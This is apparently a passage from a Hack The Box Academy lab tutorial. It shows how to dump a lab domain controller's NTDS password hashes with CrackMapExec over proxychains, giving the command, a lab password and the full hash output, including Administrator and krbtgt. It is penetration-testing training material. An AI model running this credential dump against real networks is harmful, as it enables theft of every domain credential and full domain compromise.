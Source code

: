 To dump the hashes, we need to use the option `--ntds`, in the following example, the user `robert` is not a Domain Admin, but it has privileges to perform replication.

{% hint style="info" %}
**Note:** The following exercises use proxychains. Refer to [Proxychains with CME ](https://academy.hackthebox.com/module/84/section/827)section for intrusion on how to set up proxychains.
{% endhint %}

### **Dumping the NTDS database from the Domain Controller**

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.1.10 -u robert -p 'Inlanefreight01!' --ntds

SMB         172.16.1.10     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         172.16.1.10     445    DC01             [+] inlanefreight.htb\robert:Inlanefreight01! 
SMB         172.16.1.10     445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         172.16.1.10     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.1.10     445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:ce590e9af90b47a6a2fdf361aa35efaf:::
SMB         172.16.1.10     445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.1.10     445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:742c416996dcf352efd5ac94200f238e:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\julio:1106:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         172.16.1.10     445    DC01             david:1107:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         172.16.1.10     445    DC01             john:1108:aad3b435b51404eeaad3b435b51404ee:c4b0e1b10c7ce2c4723b4e2407ef81a2:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\svc_workstations:1109:aad3b435b51404eeaad3b435b51404ee:7247e8d4387e76996ff3f18a34316fdd:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\carlos:2606:aad3b435b51404eeaad3b435b51404ee:a738f92b3c08b424ec2d99589a9cce60:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\robert:2607:aad3b435b51404eeaad3b435b51404ee:a5c7f8ecc821b547d09cf28b5864e54b:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\grace:5603:aad3b435b51404eeaad3b435b51404ee:a5c7f8ecc821b547d09cf28b5864e54b:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\peter:5604:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\alina:5605:aad3b435b51404eeaad3b435b51404ee:a5be3c11831bddc88f6d7517615f3d45:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\noemi:6104:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\engels:6105:aad3b435b51404eeaad3b435b51404ee:54f45c2b87df16aafa336fb6ffbbac59:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\kiosko:6107:aad3b435b51404eeaad3b435b51404ee:f399c1b9e7f851b949767163c35ae296:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\testaccount:6108:aad3b435b51404eeaad3b435b51404ee:e02ca966c5c0b22eba3c8c4c5ae568b1:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\mathew:6109:aad3b435b51404eeaad3b435b51404ee:abfcb587cd2d0f48967ab753fba96b34:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\svc_ca:6603:aad3b435b51404eeaad3b435b51404ee:828b21c929084f0efd75791db7cb963d:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\harris:7104:aad3b435b51404eeaad3b435b51404ee:fb9e4fb946a15a0c68087bc830b5da12:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\soti:7105:aad3b435b51404eeaad3b435b51404ee:1bc3af33d22c1c2baec10a32db22c72d:::
SMB         172.16.1.10     445    DC01             DC01$:1002:aad3b435b51404eeaad3b435b51404ee:f0ec1102494ee338521fb866f5848d45:::
```